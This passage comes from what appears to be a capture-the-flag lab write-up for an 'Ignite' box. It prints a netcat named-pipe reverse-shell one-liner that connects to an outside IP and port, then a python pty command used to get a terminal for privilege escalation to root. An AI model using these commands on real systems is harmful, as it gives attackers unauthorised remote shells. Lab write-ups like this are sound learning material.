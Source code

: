 <img src="/assets/images/thm/ctf/ignite-13.png">

For stability, I spawned a reverse shell using nc:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.2.119.123 1234 > /tmp/f
```

### Privilege Escalation

I attempted to escalate privileges to the root user.

Running su root gave me the error:

"must be run from a terminal"

I fixed this by spawning a pseudo-terminal:

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
<img src="/assets/images/thm/ctf/ignite-14.png">
